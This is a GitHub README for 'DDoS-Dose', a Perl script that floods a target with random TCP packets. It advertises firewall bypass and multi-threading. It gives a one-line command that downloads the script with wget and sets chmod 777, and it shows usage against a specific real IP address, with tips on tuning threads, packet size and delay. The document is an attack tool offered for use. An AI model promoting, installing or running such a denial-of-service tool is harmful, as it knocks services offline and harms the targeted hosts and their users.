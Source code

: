 
# Script for DDoS-Dose !

## Features

- Generate Random TCP Traffic
- To Target Port & from specif Port
- Require HPC (High Performance Computing) Server
- Can bypass some ISP Firewalls
- Language: Perl
- multi-threads
- Configure threads, packet size, number of packet, delay, iterations
## Installation

One Line Setup for Debian Based distro ~ Ubuntu, Debian

```bash
  apt update -y && apt install perl -y && apt install wget -y && wget https://raw.githubusercontent.com/cyberceros/ddos-dose/main/Layer4/TCP/random-tcp%20%7C%20ID%3AA3/random-tcp.pl && chmod 777 *

```
## Usage

```
perl random-tcp.pl 162.241.27.65
perl random-tcp.pl <target ip> 
```
```
- This script can be configured with number of threads (line 33)
- This script can be configured with size of packets (line 10)
- This script can be configured with delay b/w packets (line 9)
- This script can be configured with target PORT (line 16)
- Can adjust time by "timeout 30" command,
```

## Authors

- [@cyberceros](https://www.github.com/cyberceros)
## Feedback

If you have any feedback, please reach out to us at n@dultr.in
